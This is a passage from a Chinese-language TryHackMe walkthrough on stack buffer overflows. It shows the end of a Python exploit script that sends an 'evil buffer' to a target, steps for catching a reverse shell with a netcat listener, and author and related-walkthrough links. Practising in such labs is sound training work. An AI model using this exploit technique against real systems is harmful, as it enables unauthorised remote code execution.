  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(buffer + "\r\n")
  print("Done!")
except:
  print("Could not connect.")
```

用 netcat 启动一个监听器


再次启动易受攻击的应用程序。执行 exploit.py 现在回头看 netcat。


你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)


如需更多演练，请在出发前继续关注…
…

**点击此处加入电报**
[https://t.me/tryhackme_writeups](https://t.me/tryhackme_writeups)

访问我的其他演练:-

[](https://link.medium.com/6SUrliFJpfb) [## TryHackMe: OSCP 缓冲区溢出准备(溢出 1)

### Shamsher khan 练习基于堆栈的缓冲区溢出！为了 OSCP

link.medium.com](https://link.medium.com/6SUrliFJpfb) [](https://shamsher-khan-404.medium.com/stack-based-buffer-overflow-practical-for-windows-vulnserver-8d2be7321af5) [## 基于堆栈的缓冲区溢出实用程序(Vulnserver)

### Shamsher Khan 利用 TRUN 命令攻击 vulnserver 缓冲区溢出

shamsher-khan-404.medium.com](https://shamsher-khan-404.medium.com/stack-based-buffer-overflow-practical-for-windows-vulnserver-8d2be7321af5) 

感谢您花时间阅读我的演练。
如果你觉得有用，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！